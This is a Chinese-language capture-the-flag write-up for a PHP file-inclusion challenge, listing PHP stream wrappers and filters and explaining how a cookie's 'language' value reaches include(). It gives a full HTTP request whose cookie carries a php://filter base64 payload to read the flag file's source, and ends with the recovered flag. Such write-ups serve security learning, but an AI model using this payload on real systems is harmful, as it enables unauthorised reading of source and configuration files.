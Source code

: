 # Fileinclude

> 首先可看到这是通过设置请求cookie中的language参数来完成的,是文件包含绕过,使用伪协议即可

## 涉及函数

### include

> 从外部引入php文件并执行,如果执行不成功,就返回文件的源码

### file_get_contents

> 把整个文件读入一个字符串中,可结合php://input使用,如file_get_contents('php://input'),请求方法为post,可获取数据


## PHP文件包含漏洞常用伪协议

```
file:// 访问本地文件系统
http:// 访问http(s）网址
ftp:// 访问ftp
php:// 访问各个输入/输出流
zlib:// 压缩流
data:// 数据
rar:// RAR压缩包
ogg:// 音频流
```

## filters类型

> String Filters: string.rot13、string.toupper、string.tolower、string.strip_tags

> Conversion Filters: convert.base64-encode & convert.base64-decode、convert.quoted-printable-encode & convert.quoted-printable-decode、convert.iconv.*

> Compression Filters: zlib.deflate、zlib.inflate、bzip2.compress和bzip2.decompress

> Encryption Filters: mcrypt.*和 mdecrypt.*

> [官方文档]https://www.php.net/manual/zh/filters.php

> [使用参考](https://blog.csdn.net/qq_44657899/article/details/109300335)

## filters支持编码

```
UCS-4*
UCS-4BE
UCS-4LE*
UCS-2
UCS-2BE
UCS-2LE
UTF-32*
UTF-32BE*
UTF-32LE*
UTF-16*
UTF-16BE*
UTF-16LE*
UTF-7
UTF7-IMAP
UTF-8*
ASCII*
EUC-JP*
SJIS*
eucJP-win*
SJIS-win*
...
```

> [官方文档](https://www.php.net/manual/zh/mbstring.supported-encodings.php)

## 思路分析

> 通过代码可以分析得到,需要设置cookie language参数来完成的,获取language参数然后include完成目的,这就和第4题file1参数一样的,用伪协议php://绕过即可,php://filter/read=convert.base64-encode/resource=flag,得到的结果为base64编码,再base64解码即可.

## payload

```
GET / HTTP/1.1
Host: 61.147.171.105:64895
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Cookie:language=php://filter/read=convert.base64-encode/resource=flag
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

## flag

> cyberpeace{1ca421d703c79b0c545c01e1450f8665}